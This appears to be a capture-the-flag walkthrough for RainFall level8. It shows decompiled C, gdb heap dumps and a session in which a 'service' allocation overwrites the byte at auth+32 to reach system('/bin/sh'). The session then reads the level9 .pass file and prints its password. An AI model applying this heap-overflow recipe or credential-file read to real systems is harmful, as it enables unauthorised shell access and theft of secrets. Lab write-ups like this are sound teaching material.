 # Walkthrough level8

This program is a while loop who read stdin and do somethings according to the
input.

Our objective is to trigger the system function:

```c
if (strncmp(input, "login", 5) == 0) {
    if (auth + 32 == NULL)
        fwrite("Password:\n", 10, 1, stdout);
    else
        system("/bin/sh");
}
```

`auth` is a pointer on the heap but we cannot write 32 characters because of
this condition:

```c
if (strncmp(input, "auth ", 5) == 0) {
    auth = malloc(4);
    char *tmp = buffer + 5;
    size_t size = strlen(tmp);
    if (size <= 30)
        strcpy(auth, tmp);
}
```

`service` permit to allocate many characters without limit:

```c
if (strncmp(input, "service", 6) == 0) {
    service = strdup(buffer + 7);
}
```

To trigger system, we need to write 32 characters after auth
(heap start = `0x804a000`):

```bash
Starting program: /home/user/level8/level8
(nil), (nil)

(gdb) n
Single stepping until exit from function main,
which has no line number information.
auth AAAA
0x804a008, (nil)

Breakpoint 2, 0x08048596 in main ()
(gdb) x/16xw 0x804a000
0x804a000:      0x00000000      0x00000011      0x41414141      0x0000000a
0x804a010:      0x00000000      0x00020ff1      0x00000000      0x00000000
0x804a020:      0x00000000      0x00000000      0x000000[00]<-- 0x00000000
0x804a030:      0x00000000      0x00000000      0x00000000    | 0x00000000
                                                    [address to write]
(gdb) n
Single stepping until exit from function main,
which has no line number information.
serviceAAAAAAAAAAAAAAAA
0x804a008, 0x804a018

Breakpoint 2, 0x08048596 in main ()
(gdb) x/16xw 0x804a000
0x804a000:      0x00000000      0x00000011      0x41414141      0x0000000a
0x804a010:      0x00000000      0x00000019      0x41414141      0x41414141
0x804a020:      0x41414141      0x41414141      0x000000[0a]<-- 0x00020fd9
0x804a030:      0x00000000      0x00000000      0x00000000    | 0x00000000
                                                    [address is changed]
```

```bash
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service AAAAAAAAAAAAAAAAAAAAAAAAAA
0x804a008, 0x804a018
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
